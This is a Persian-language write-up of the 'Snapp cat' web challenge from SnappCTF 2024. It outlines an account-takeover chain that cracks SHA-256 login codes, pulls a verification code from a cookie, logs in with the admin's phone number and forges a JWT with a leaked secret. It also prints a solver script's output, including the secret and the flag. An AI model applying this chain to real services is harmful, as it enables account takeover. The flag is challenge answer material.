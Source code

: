 ```yaml
---
tags:
  - SnappCTF
  - SnappCTF-2024
  - Swagger
  - JWT
  - Web
  - sha256
---
```


<h1 dir="ltr">Snapp cat</h1>

<center>

![snappcat.png](./snappcat.png)

</center>

# قدم های حل چالش:
1. ثبت نام یک کاربر رندوم
2. دریافت کد sha256 برای لاگین کردن
3. کرک کردن کد sha256 برای لاگین شدن
4. جنریت کردن کد برای وریفای کردن ایمیل
5. گرفتن کد وریفای ایمیل در کوکی 
7. گرفتن شماره تلفن ادمین
8. فراید لاگین به وسیله شماره تلفن ادمین
9. ساختن یه گربه!
10. خوندن کد js سرور
11. دریافت کد سکرت json-web-token و ست کردن کوکی برای گرفتن فلگ


برای حل این سوال من یک اسکریپت پایتون آماده کردم که میتونین از روی اون سوال رو حل کنین و بررسی کنین که چه اتفاقی میوفته

- [snappcat.py](../../../uploads/snappcat.py){:download="snappcat.py"}

بعد از دانلود فایل پایتون:

```sh
$ python3 snappcat.py
[+] registering with 2af8ba4edba03309: 
[+] response:  {'success': True}
[+] logging in with 2af8ba4edba03309
[+] resposne:  {'success': True}
[+] login with phone: +987714270933
[+] response: 200
[+] crack the code for sha256:04dc6d4a58836dce23191b5025d392f911a58c61452c580f79c9ec53f86b1ee6
[+] code cracked: 3189328
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] send verification email
[+] response: 200
[+] verify account
[+] response: 200
[+] login with phone: +133731333717
[+] response: 200
[+] crack the code for sha256:98fbf94b5485944c2325c846ec6234b6b7008c62dd2d17728b77ebef038ab5bd
[+] code cracked: 7494977
[+] send code
[+] login-with-phone-callback response:  {'sucess': True}
[+] whoami?:  {'data': {'userId': 1}, 'success': True}
[+] create cat
[+] cat created with id: 62fd96ac-d0fe-4632-b7be-d2e873471acc
[+] display and get created cat
----------------------------------------------------------------------------------------------------
JWT SECRET: omidvaram-to-ke-ino-mibini-developer-website-bashi-fd29293cdeaf70dc67b420e73a37e172
----------------------------------------------------------------------------------------------------
[+] update jwt session
[+] reading flag xd
FLAG: SNAPP{7dc998269394314896af6378f15c2c12}
```


??? success "FLAG :triangular_flag_on_post:"
    <div dir="ltr">`SNAPP{7dc998269394314896af6378f15c2c12}`</div>


!!! نویسنده
    [amir303](https://x.com/amir3O3)$~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~$تاریخ نگارش ۱۴۰۲/۱۲/۰۵